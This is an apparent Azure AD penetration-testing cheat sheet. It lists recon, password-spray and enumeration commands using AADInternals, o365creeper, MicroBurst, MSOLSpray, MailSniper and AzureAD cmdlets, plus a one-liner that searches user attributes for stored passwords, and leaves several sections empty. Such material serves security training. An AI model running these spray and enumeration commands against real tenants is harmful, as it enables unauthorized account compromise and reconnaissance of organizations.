 ## Recod
#### Recon Azure Tenant using [AADInternals](https://github.com/Gerenios/AADInternals)
```shell
    # Get tenant name, authentication, brand name (usually same as directory name) and domain name
    Get-AADIntLoginInformation -UserName root@defcorphq.onmicrosoft.com

    # Get Tenant ID
    Get-AADIntTenantID -Domain defcorphq.onmicrosoft.com

    # Get Tenant Domain 
    Get-AADIntTenantDomains -Domain deffin.onmicrosoft.com

    # Get all information
    Invoke-AADIntReconAsOutsider -DomainName defcorphq.onmicrosoft.com
```

#### Recon Email IDs using [o365creeper](https://github.com/LMGsec/o365creeper)
```shell
# Enumerate Email IDs by making requests to the `GetCredentialType` API
python.exe o365creeper.py -f emails.txt -o validemails.txt
```

#### Recon Azure Services by [microburst](https://github.com/NetSPI/MicroBurst)
```shell
# Enumerates subdomains by subdomain guessing
Invoke-EnumerateAzureSubDomains -Base defcorphq -Verbose
```

## Initial Access
#### Password Spray using [MSOLSPray](https://github.com/dafthack/MSOLSpray)
```shell
# The tool can use **fireprox** to change source IP
Invoke-MSOLSpray -UserList validemails.txt -Password 'P@ssw0rd' -Verbose
```

#### Password Spray against the exchange service using [MailSniper](https://github.com/dafthack/MailSniper)
```shell
 Invoke-PasswordSprayEWS -ExchHostname outlook.office365.com -UserList gotham-emails.txt -Password Gotham2020
```

## Enumeration
#### User Enumeration
```shell
# Enumerate all users
powershell Get-AzureADUser -All $true

# Enumerate a specific user
Get-AzureADUser -ObjectId 'test@defcorphq.onmicrosoft.com'

# Search for a user based on string in first characters of DisplayName or userPrincipalName (wildcard not supported)

Get-AzureADUser -SearchString "admin"
Get-AzureADUser -All $ |?{$_.Displayname -match "admin"}

# List all attributes for a user
Get-AzureADUser -ObjectId 'test@defcorphq.onmicrosoft.com' | fl *

# Search attributes for all users that contain the string "password"
Get-AzureADUser -All $true|%{$Properties = $_;$Properties.PSObject.Properties.Name |${if ($Properties.$_ -match 'password'){"$($Properties.UserPrincipalName) - $_ - $($Properties.$_)"}}}

```
#### Group Enumeration
| **Command**                                                                                                    | **Comment**                                                                                    |
| -------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------- |
| `Get-AzureADGroup -All $true`                                                                                  | List All Groups                                                                                |
| `Get-AzureADGroup -ObjectId 783a312d 0de2 4490 92e4 539b0e4ee03e`                                              | Enumerate a specific group                                                                     |
| `Get-AzureADGroup -SearchString "admin" \| fl *`                                                               | Search for a group based on string in first characters of DisplayName (wildcard not supported) |
| `Get-AzureADGroup -All $true \|? {$_.Displayname -match "admin"}`                                              |     Search for groups which contain the word "admin" in their name                                                                                           |
| `Get-AzureADMSGroup \|?{$_.GroupTypes -eq 'DynamicMembership'}`                                                | Get Groups that allow Dynamic membership (Note the cmdlet name)                                |
| `Get-AzureADGroup -All $true \|?{$_.OnPremisesSecurityIdentifier -ne $null }`                                  | All groups that are synced from on prem (note that security groups are not synced)             |
| `Get-AzureADGroup -All $true \|?{$_.OnPremisesSecurityIdentifier -eq $null }`                                  | All groups that are from Azure AD                                                              |
| `Get-AzureADGroupMember -ObjectId 783a312d 0de2 4490 92e4 539b0e4ee03e`                                        | Get group members                                                                              |
| `Get-AzureADUser -SearchString 'test' \| Get-AzureADUserMembership -ObjectId 'test@defcorphq.onmicrosoft.com'` | Get groups and roles where the specified user is a member                                      |
#### Role Enumeration
#### Device Enumeration
#### Apps Enumeration
#### Service Principals Enumeration

### Enumeration Using [ROADTools](https://github.com/dirkjanm/ROADtools)
### Enumeration Using [AzureHound](https://github.com/dirkjanm/ROADtools)
### Enumeratin Using [StormSpotter](https://github.com/Azure/Stormspotter)
